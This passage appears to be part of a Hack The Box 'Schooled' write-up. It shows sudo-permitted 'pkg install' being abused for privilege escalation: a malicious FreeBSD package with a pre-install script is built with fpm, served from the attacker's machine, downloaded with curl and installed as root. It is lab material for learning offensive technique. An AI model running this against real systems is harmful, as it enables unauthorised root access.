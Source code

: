 ```bash
jamie@Schooled:~ $
```

# Privilege Escalation

## pkg privilege escalation

Enumerated sudo privileges:

```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

[pkg | GTFOBins](https://gtfobins.github.io/gtfobins/pkg/)

Generated PoC:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ echo 'id' > x.sh

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ fpm -n x -s dir -t freebsd -a all --before-install x.sh .
DEPRECATION NOTICE: XZ::StreamWriter#close will automatically close the wrapped IO in the future. Use #finish to prevent that.
/var/lib/gems/2.7.0/gems/ruby-xz-0.2.3/lib/xz/stream_writer.rb:185:in `initialize'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `new'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `block in output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `open'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:487:in `execute'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:68:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:574:in `run'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:133:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/bin/fpm:7:in `<top (required)>'
        /usr/local/bin/fpm:23:in `load'
        /usr/local/bin/fpm:23:in `<main>'
Created package {:path=>"x-1.0.txz"}

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [11/May/2021 15:45:14] "GET /x-1.0.txz HTTP/1.1" 200 -
10.10.10.234 - - [11/May/2021 15:45:27] "GET /x-1.0.txz HTTP/1.1" 200 -
```

Executed the PoC:

```bash
jamie@Schooled:~ $ curl 10.10.14.24/x-1.0.txz x-1.0.txz
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
jamie@Schooled:~ $ curl 10.10.14.24/x-1.0.txz -o x-1.0.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2572  100  2572    0     0  21256      0 --:--:-- --:--:-- --:--:-- 21256
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
```